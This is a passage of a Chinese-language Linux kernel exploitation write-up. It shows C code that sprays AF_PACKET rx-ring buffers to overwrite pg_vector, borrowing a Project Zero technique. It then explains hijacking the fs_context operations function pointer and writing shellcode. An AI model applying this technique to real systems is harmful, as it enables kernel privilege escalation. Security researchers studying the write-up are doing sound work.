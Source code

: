 ```c
```

- `fs_context_ops` 指向 code base
- 大小為 0xa0，落於 kmalloc-192

再來利用 spray raw_packet 的方法來 overwrite pg_vector，實際上構造方式跟之前 project zero 提出來的方法相同，但是要利用的結構不一樣：

```c
void packet_socket_rx_ring_init(int s, unsigned int block_size,
                                unsigned int frame_size, unsigned int block_nr,
                                unsigned int sizeof_priv, unsigned int timeout) {
    int v = TPACKET_V3;
    int rv = setsockopt(s, SOL_PACKET, PACKET_VERSION, &v, sizeof(v));

    struct tpacket_req3 req;
    memset(&req, 0, sizeof(req));
    req.tp_block_size = block_size;
    req.tp_frame_size = frame_size;
    req.tp_block_nr = block_nr;
    req.tp_frame_nr = (block_size * block_nr) / frame_size;
    req.tp_retire_blk_tov = timeout;
    req.tp_sizeof_priv = sizeof_priv;
    req.tp_feature_req_word = 0;

    rv = setsockopt(s, SOL_PACKET, PACKET_RX_RING, &req, sizeof(req));
}

int packet_socket_setup(unsigned int block_size, unsigned int frame_size,
                        unsigned int block_nr, unsigned int sizeof_priv, int timeout) {
    int s = socket(AF_PACKET, SOCK_RAW, htons(ETH_P_ALL));
    packet_socket_rx_ring_init(s, block_size, frame_size, block_nr,
                               sizeof_priv, timeout);

    struct sockaddr_ll sa;
    memset(&sa, 0, sizeof(sa));
    sa.sll_family = PF_PACKET;
    sa.sll_protocol = htons(ETH_P_ALL);
    sa.sll_ifindex = if_nametoindex("lo");
    sa.sll_hatype = 0;
    sa.sll_pkttype = 0;
    sa.sll_halen = 0;

    int rv = bind(s, (struct sockaddr *)&sa, sizeof(sa));

    return s;
}
```



而第一次的 overwrite 是讀 fs_context 的成員 `fs_context_operations` (function pointer) 來控制執行流程，而第二次 overwrite 則是蓋寫成任意 shellcode。
